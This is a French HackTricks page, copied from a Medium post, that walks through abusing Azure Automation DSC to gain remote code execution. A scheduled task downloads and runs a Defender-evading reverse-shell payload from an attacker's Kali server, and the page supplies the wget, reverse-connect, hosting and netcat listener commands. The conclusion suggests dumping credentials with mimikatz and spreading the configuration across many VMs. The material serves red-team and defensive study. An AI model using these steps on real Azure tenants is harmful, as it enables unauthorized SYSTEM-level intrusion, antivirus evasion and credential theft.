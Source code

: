 # Az - Configuration d'état RCE

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Cet article a été copié de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Préparation de l'infrastructure du serveur distant (C2) <a href="#f0fa" id="f0fa"></a>

Je vais héberger une version allégée du payload Nishang Invoke-PowerShellTcp.ps1 depuis le serveur distant "40.84.7.74", qui est la machine Kali. Le nom du payload sera "RevPS.ps1". Pour éviter que le script Nishang soit supprimé par Windows Defender pour une raison quelconque (peut-être préférez-vous déposer le fichier sur le disque), j'ai ici une version allégée que vous pouvez utiliser qui contournera Defender : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Ceci sera hébergé par un simple serveur Python Simple sur la machine Kali.

### Étape 1 — Créer des fichiers <a href="#89de" id="89de"></a>

Nous devrons créer un autre fichier de configuration DSC. Un modèle peut être téléchargé ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Ce fichier de configuration utilisera la même fonction d'écriture de fichier que nous avons précédemment utilisée. Cette fois, le contenu comprend du code pour télécharger et exécuter un payload depuis notre serveur distant. De plus, nous utilisons une fonction de tâche planifiée disponible dans le module _ComputerManagementDsc_. La fonction de tâche planifiée jouera un rôle clé dans l'exécution et nous fournira des privilèges SYSTEM plus tard.

Nous téléchargerons également un script qui sera utilisé pour publier notre configuration sur la VM. Il se trouve ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Ces fichiers serviront de modèle. **Vous devrez remplir les noms de variables et les paramètres avec ce que vous utilisez**. Cela inclut les noms de ressources, les chemins de fichiers et les noms de serveurs/payloads externes que vous utilisez. Veuillez vous référer aux commentaires dans le code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 2 — Compresser le fichier de configuration <a href="#c2c2" id="c2c2"></a>

Avec nos deux fichiers créés, nous allons compresser le fichier **‘reverse\_shell\_config.ps1’** afin de pouvoir l'envoyer au compte de stockage
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Étape 3 — Définir le contexte de stockage et téléverser <a href="#bed9" id="bed9"></a>

Encore une fois, nous allons configurer le contexte de notre compte de stockage, ce que j'ai déjà fait. J'ai déjà un conteneur nommé '**azure-pentest**', c'est donc là que je vais publier le mien :
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Étape 4 — Préparer la machine Kali <a href="#20fb" id="20fb"></a>

Dans notre machine Kali, nous pouvons simplement utiliser _wget_ pour télécharger notre payload PowerShell. Le script de reverse-shell brut est situé ici : [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
Nous devons modifier le script de reverse-shell en y ajoutant nos paramètres, afin que la VM Windows sache où se connecter une fois qu'il est exécuté. Dans mon cas, j'ajoute ce qui suit :
```
RevPShell -Reverse 40.84.7.73 443
```
### Étape 5 — Publier le fichier de configuration <a href="#9ad6" id="9ad6"></a>

Nous allons maintenant exécuter notre fichier de configuration. J'ai configuré le mien pour qu'il soit publié sur le Bureau pour une meilleure visualisation, cependant, il peut être publié presque partout. Après quelques minutes, nous verrons que le script de reverse-shell a été publié !

### Étape 6 — Héberger le Payload et Configurer l'Écouteur <a href="#c55f" id="c55f"></a>

Une fois que nous avons publié la configuration, nous pouvons simultanément démarrer un Python SimpleHTTPServer sur le port 80 pour héberger le payload, ainsi qu'un écouteur netcat afin de capter la connexion :
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Nous constatons que la tâche planifiée a été exécutée et notre charge utile a été récupérée et exécutée en mémoire avec des privilèges de niveau **SYSTEM** !

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusion <a href="#1ec2" id="1ec2"></a>

Cela ouvre désormais la porte à de nombreuses possibilités. Puisque nous avons un shell fonctionnant en tant que **SYSTEM,** nous pouvons extraire les identifiants avec mimikatz (potentiellement risqué selon la maturité de l'EDR pour les ressources cloud). Si vous extrayez des identifiants, il y a de fortes chances qu'ils puissent être réutilisés ailleurs sur différentes ressources. Enfin, un point important à retenir est que, au lieu de limiter cela à une seule VM, vous avez maintenant la capacité de potentiellement appliquer cette configuration à plusieurs VM.

Sur cette note, cela conclut nos aventures avec Azure Automation DSC ! J'espère que vous vous êtes amusés, que vous avez beaucoup appris et que vous continuerez à vous développer avec votre propre créativité.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
